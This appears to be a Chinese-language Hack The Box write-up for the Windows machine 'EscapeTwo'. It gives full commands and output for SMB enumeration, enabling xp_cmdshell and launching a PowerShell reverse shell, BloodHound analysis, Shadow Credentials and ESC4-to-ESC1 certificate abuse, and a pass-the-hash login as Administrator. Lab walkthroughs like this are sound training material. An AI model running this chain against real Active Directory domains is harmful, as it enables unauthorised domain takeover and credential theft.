









## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

As is common in real life Windows pentests, you will start this box with credentials for the following account: **rose** / **KxEPkKe6R8su**

## Nmap

```
root@kali: /home/kali/EscapeTwo  
➜   nmap EscapeTwo.htb -sV -Pn -T4
Nmap scan report for EscapeTwo.htb 

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB User Crack

```
root@kali: /home/kali/EscapeTwo  
➜   crackmapexec smb escapetwo.htb -u "rose" -p "KxEPkKe6R8su" --rid-brute | grep SidTypeUser

SMB    EscapeTwo.htb   445    DC01        500: SEQUEL\Administrator (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        501: SEQUEL\Guest (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        502: SEQUEL\krbtgt (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1000: SEQUEL\DC01$ (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1103: SEQUEL\michael (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1114: SEQUEL\ryan (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1116: SEQUEL\oscar (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1122: SEQUEL\sql_svc (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1601: SEQUEL\rose (SidTypeUser)
SMB    EscapeTwo.htb   445    DC01        1607: SEQUEL\ca_svc (SidTypeUser)
```

## SMB File Leak

```
[root@kali] /home/kali/EscapeTwo  
❯ smbclient -L //10.10.xx.xx -U rose

Password for [WORKGROUP\rose]:

        Sharename       Type      Comment
        --------- ---- -------
        Accounting Department  Disk      
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
```

在这个**Accounting Department**中存在表格文件

```
[root@kali] /home/kali/EscapeTwo  
❯ smbclient //10.10.xx.xx/Accounting\ Department  -U rose                                                                                     ⏎
Password for [WORKGROUP\rose]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jun  9 18:52:21 2024
  ..                                  D        0  Sun Jun  9 18:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 18:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 18:52:07 2024

                6367231 blocks of size 4096. 904047 blocks available
smb: \> 
```

查看**accounts.xlsx**文件发现用户信息泄露



## MSSQL xp\_cmdshell

```
[root@kali] /home/kali/EscapeTwo  
❯ impacket-mssqlclient escapetwo.htb/sa:MSSXXXXXXXXX@10.10.11.51                                                                                       ⏎

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> SELECT DB_NAME() AS CurrentDatabase;
CurrentDatabase   
--------------- 
master            

SQL (sa  dbo@master)> 
```

默认的**xp\_cmdshell**没有被打开，需要手动设置

```
-- 启用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- check
EXEC sp_configure 'xp_cmdshell';
```



我这使用一个工具进行了反弹**Shell**，因为在**mssql**终端中好像命令过长会无法使用

- [Release mssql-command-tools · Mayter/mssql-command-tool](https://github.com/Mayter/mssql-command-tool/releases/tag/mssql)

```
[root@kali] /home/kali  
❯ ./mssql-command-tools_Linux_amd64 --host 10.10.xx.xx -u "sa" -p 'MSSQLP@ssw0rd!' -c "powershell -e yourbase64here"
```



发现一个配置文件中泄露了**sql\_svc**的信息

```
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\SQL2019\ExpressAdv_ENU> 
```

使用这个密码可以登录**ryan**的账户获取到**user.txt**



## Privilege Escalation

在**Evil-winrm**里查看**ipconfig**



把**sequel.htb**和**dc01.seqeul.htb**添加到**/etc/hosts**

### Bloodhound

```
[root@kali] /home/kali/EscapeTwo  
❯ bloodhound-python -u ryan -p "WqSZAFXXXXXXXX" -d sequel.htb -ns 10.10.xx.xx -c All
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 16S
```



**Ryan**对**CA\_SVC**具有**WriteOwner**权限

并且**CA\_SVC**是证书发布者

因此可以将**CA\_SVC**的拥有者设置为**Ryan**

### Set Owner

```
[root@kali] /home/kali/EscapeTwo  
❯ bloodyAD --host '10.10.XX.XX' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6XXXXXXXX' set owner 'ca_svc' 'ryan'                                              ⏎
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```

### Get Control Rights

- [Grant rights | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)

```
[root@kali] /home/kali/EscapeTwo  
❯ impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAFXXXXXXXXXXX"  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL modified successfully!
```

### ESC4 to ESC1

- [AD CS 域升级 - HackTricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4)

获取影子凭证（[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)），以及NThash

```
[root@kali] /home/kali/EscapeTwo  
❯ certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAXXXXXXX" -account 'ca_svc' -dc-ip '10.10.XX.XX'

####you will get NThash of ca_svc below

[*] NT hash for 'ca_svc': XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

如果遇到了下面的错误👇需要手动更新时间



```
[root@kali] /home/kali/EscapeTwo  
❯ ntpdate sequel.htb
```

查找能用的模板，我们需要覆盖他的设置

我这里使用的是**Certify.exe**上传到目标机器上

```
*Evil-WinRM* PS C:\temp> ./Certify.exe find /domain:sequel.htb 
```



可以看到**ca\_svc**对这个证书具有可覆盖权限👆，下面将其覆盖

```
[root@kali] /home/kali/EscapeTwo  
❯ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.XX.XX -target dc01.sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

利用 **`ca_svc`** 用户的凭证哈希，通过 **Kerberos** 请求来获得目标系统的身份验证票证

```
[root@kali] /home/kali/EscapeTwo  
❯ certipy-ad req -u ca_svc -hashes 'XXXXXXXXXXXXXXXXXXXXXXXX' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.xx.xx -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.xx.xx -dns 10.10.xx.xx -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.xx.xx'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.xx.xx[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.xx.xx[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.xx.xx'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

通过证书获取到**Administrator**的**hash**

```
[root@kali] /home/kali/EscapeTwo  
❯ certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.XX.XX'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435bxxxxxxxxxxx:7a8d4e0xxxxxxxxxxxxxxxxxxxxxxxx
```

**Evil-Winrm**登录拿到**root.txt**

```
[root@kali] /home/kali/EscapeTwo  
❯ evil-winrm -i 10.10.xx.xx -u "administrator" -H "7a8d4e049XXXXXXXXXXXXXXXXXX"
```



## Summary

**`User`**：**SMB**的表格文件泄露了账号和密码，可以用于登录**MSSQL**服务，手动打开**XP\_CMDSHELL**就可以进行命令执行，这与我之前工程实践的一个靶机类似。找到了**SQL**服务的一个配置文件里面保存有密码，可以进行**Ryan**用户的登录，拿到**User.txt**.

**`Root`**：通过**Ryan**用户使用**Bloodhound**进行分析，发现**Ryan**对**CA\_SVC**具有**WriteOwner**权限。可以将**Ryan**作为**CA\_SVC**的拥有者，我尝试过修改**CA\_SVC**的密码，但是似乎密码并不能被修改，报错说密码的修改冷却是`-2 days`。不过可以拿到**CA\_SVC**的影子票据进行**ESC4**的操作，使用`-k`参数指定**Kerberos**认证。过程中可能会出现各种报错，一定要尝试使用`ntpdate sequel.htb` 同步时区，其余的可能是网络问题。
